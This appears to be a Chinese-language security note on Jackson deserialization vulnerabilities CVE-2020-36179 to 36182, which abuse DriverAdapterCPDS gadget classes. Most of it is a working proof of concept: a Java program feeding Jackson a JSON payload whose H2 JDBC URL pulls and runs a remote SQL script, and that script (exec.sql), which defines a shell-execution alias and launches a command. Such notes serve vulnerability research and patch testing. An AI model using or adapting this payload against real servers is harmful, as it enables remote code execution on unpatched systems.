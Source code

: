 ### 多个CVE(SSRF to RCE)
- CVE-2020-36179：`oadd.org.apache.commons.dbcp.cpdsadapter.DriverAdapterCPDS`
- CVE-2020-36180：`org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS`
- CVE-2020-36181：`org.apache.tomcat.dbcp.dbcp.cpdsadapter.DriverAdapterCPDS`
- CVE-2020-36182：`org.apache.tomcat.dbcp.dbcp2.cpdsadapter.DriverAdapterCPDS`

Ref: 
- https://github.com/Al1ex/CVE-2020-36179


原理差不多，
```
DriverAdapterCPDS
    ->seturl
        ->getPooledConnection
            ->DirverManager.getConnection(this.url,username,pass)
```

### PoC
```java
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.SerializationFeature;


public class POC {
    public static void main(String[] args) throws Exception {
        String payload = "[\"org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS\",{\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:3333/exec.sql'\"}]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.configure(SerializationFeature.FAIL_ON_EMPTY_BEANS, false);
        Object obj = mapper.readValue(payload, Object.class);
        mapper.writeValueAsString(obj);
    }
}
```

#### exec.sql
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc.exe')
```
